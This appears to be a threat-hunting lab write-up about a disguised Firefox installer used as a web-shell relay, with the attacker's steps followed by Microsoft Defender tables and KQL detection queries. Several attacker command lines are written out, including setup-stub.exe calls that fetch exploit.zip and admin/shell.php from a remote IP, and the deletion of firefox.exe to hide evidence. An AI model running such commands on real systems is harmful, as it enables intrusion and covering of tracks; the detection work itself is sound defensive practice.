 # Threat Event (Firefox Used as a Web Shell Relay)
**Detection of Unauthorized Firefox Installation and Malicious Activity on Workstation: snet**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Downloaded a modified Firefox installer disguised as a legitimate file: ```Firefox Installer.exe``` saved under ```C:\Users\employee0\Downloads\```.

2. Executed the installer silently through ```setup-stub.exe``` with custom arguments: ```setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/exploit.zip```

3. Executed again using a different payload hosted on a remote web server: ```setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php```

4. Multiple dropper executions occurred via ```download.exe``` in quick succession, indicating staged infection:                                    ```"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\config.ini
"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\config.ini```

5. ```Firefox.exe``` was later deleted from the installation directory to remove evidence:                                                              ```ActionType: FileDeleted
FileName: firefox.exe
FolderPath: C:\Program Files\Mozilla Firefox\
InitiatingProcessCommandLine: setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php```

6. These actions created multiple temporary and malicious profile directories ```(Temp\MalProfile)``` to host payloads and connect to remote command servers.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table|
| **Purpose**| Used to detect Firefox installer downloads, temporary profile creation, and file deletion (covering tracks). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect ```download.exe```, ```setup-stub.exe```, and malicious command-line arguments used to install and execute payloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect external web connections initiated by Firefox and setup-stub to remote IPs (e.g., 172.203.80.23).|

---

## Related Queries:
```kql
// 1. Identify Firefox or suspicious installer download activity
DeviceFileEvents
| where FileName contains "firefox" 
| where DeviceName == "snet"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, SHA256, InitiatingProcessCommandLine
| order by Timestamp desc

// 2. Detect malicious process executions using setup-stub or download.exe
DeviceProcessEvents
| where DeviceName == "snet"
| where FileName in~ ("setup-stub.exe", "download.exe")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine, ReportId
| order by Timestamp desc

// 3. Detect Firefox deletion (possible cleanup behavior)
DeviceFileEvents
| where FileName == "firefox.exe"
| where ActionType == "FileDeleted"
| project Timestamp, DeviceName, Account, InitiatingProcessCommandLine, FolderPath, SHA256

// 4. Detect network activity to potential malicious endpoints
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("setup-stub.exe", "firefox.exe")
| where RemoteIP has_any ("172.203.80.23")
| project Timestamp, DeviceName, InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: Antonio Francisco
- **Author Contact**: https://www.linkedin.com/in/antoniofrancisco-085948210/
- **Date**: October 10, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `October 10, 2025`  | `Antonio Francisco`   
